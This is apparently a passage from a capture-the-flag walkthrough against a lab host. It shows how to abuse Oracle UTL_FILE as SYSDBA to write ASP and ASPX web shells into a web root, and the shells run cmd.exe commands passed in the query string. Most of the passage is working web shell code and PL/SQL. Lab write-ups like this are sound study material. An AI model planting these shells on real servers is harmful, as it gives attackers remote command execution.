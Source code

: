 ```sql
DECLARE
  v_file UTL_FILE.FILE_TYPE;
BEGIN
  v_file := UTL_FILE.FOPEN('/inetpub/wwwroot/','bubba.asp','w');
  UTL_FILE.PUT_LINE(v_file,'<% Response.Write(CreateObject("WScript.Shell").Exec(Request.QueryString("c")).StdOut.Readall()) %>');
  UTL_FILE.FCLOSE(v_file); 
END; 
/
```

Now test this as follows:

```bash
curl -s http://10.10.10.82/bubba.asp?c=whoami
```

However, this returns a `404 - File or directory not found` error. Try an ASPX (ASP.NET) we shell:

```asp
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e) {
Process p = new Process();
p.StartInfo.CreateNoWindow = true;
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.Arguments = "/c " + Request.QueryString["c"];
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardError = true;
p.StartInfo.UseShellExecute = false;
p.Start();
Response.Write(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
}
</script>
```

Save the above code in `bubba.aspx` and run the following to remove the newlines to get a web shell one-liner:

```bash
tr -d '\n' < bubba.aspx
```

Then paste the code into the followin Oracle SQL query as a SYSDBA:

```sql
DECLARE
  v_file UTL_FILE.FILE_TYPE;
BEGIN
  v_file := UTL_FILE.FOPEN('/inetpub/wwwroot/','bubba.aspx','w');
  UTL_FILE.PUT_LINE(v_file,'<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e) {Process p = new Process();p.StartInfo.CreateNoWindow = true;p.StartInfo.FileName = "cmd.exe";p.StartInfo.Arguments = "/c " + Request.QueryString["c"];p.StartInfo.RedirectStandardOutput = true;p.StartInfo.RedirectStandardError = true;p.StartInfo.UseShellExecute = false;p.Start();Response.Write(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());}</script>');
  UTL_FILE.FCLOSE(v_file); 
END; 
/
```
